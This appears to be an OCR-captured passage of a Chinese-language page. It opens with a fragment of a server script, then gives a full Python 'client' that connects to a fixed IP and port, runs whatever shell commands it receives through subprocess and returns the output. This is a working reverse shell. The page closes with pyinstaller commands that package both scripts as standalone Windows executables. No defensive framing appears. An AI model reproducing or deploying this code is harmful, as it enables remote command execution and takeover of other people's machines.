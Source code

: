 ~~~python
        client_socket.close()

~~~

客户端

~~~python
import socket
import subprocess

# 创建一个 TCP/IP socket 对象
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# 连接服务端地址和端口号
server_address = ('10.161.132.21', 12340)
client_socket.connect(server_address)

try:
    while True:
        # 接收服务端发送的命令，并执行该命令后将结果返回给客户端
        command = client_socket.recv(4096).decode('gbk')
        if not command:
            break

        try:
            # 使用 subprocess 模块执行命令
            process = subprocess.Popen(command, shell=True,
                                       stdout=subprocess.PIPE,
                                       stderr=subprocess.PIPE)
            out, err = process.communicate()

            # 获取命令输出结果或错误信息
            result = out if out else err

        except Exception as e:
            # 捕获异常并将错误信息返回给客户端
            result = str(e).encode('gbk')

        client_socket.sendall(result)

finally:
    # 关闭客户端连接
    client_socket.close()

~~~

生成exe

~~~powershell
pyinstaller.exe -F 服务端.py
pyinstaller.exe -F 客户端.py
~~~







